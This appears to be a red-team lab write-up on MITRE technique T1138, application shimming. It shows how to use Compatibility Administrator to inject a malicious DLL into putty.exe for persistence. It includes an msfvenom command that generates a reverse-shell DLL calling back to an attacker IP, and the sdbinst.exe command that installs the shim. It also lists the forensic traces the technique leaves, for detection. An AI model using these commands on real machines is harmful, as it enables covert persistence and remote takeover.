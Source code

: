 ```yaml
---
layout: post
title: "2024-06-18-t1138 application shimming"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1138-application-shimming/
---
```


---
description: 'Persistence, Privilege Escalation'
---

# Application Shimming

## Execution

In this lab, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored in a 32-bit DLL:

{% code title="attacker@kali" %}
```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```
{% endcode %}

Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:

![](../../.gitbook/assets/shim-new-fix.png)

![](../../.gitbook/assets/shim-injectdll.png)

![](../../.gitbook/assets/shim-cmdline.png)

Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:

{% code title="attacker@victim" %}
```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```
{% endcode %}

Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:

![](../../.gitbook/assets/shim-shell.png)

## Observations

We can see putty.exe has loaded the evil32.dll:

![](../../.gitbook/assets/putty-evil32.png)

Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:

![](../../.gitbook/assets/shim-rundll32.png)

The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:

![](../../.gitbook/assets/shim-remnants.png)

Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will still have to be written to the disk and the registry will have to be modified:

![](../../.gitbook/assets/shim-sysmon.png)

Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:

![](../../.gitbook/assets/shim-connection.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1138" %}

{% embed url="https://blacksunhackers.club/2016/08/post-exploitation-persistence-with-application-shims-intro/" %}

@spotheplanet
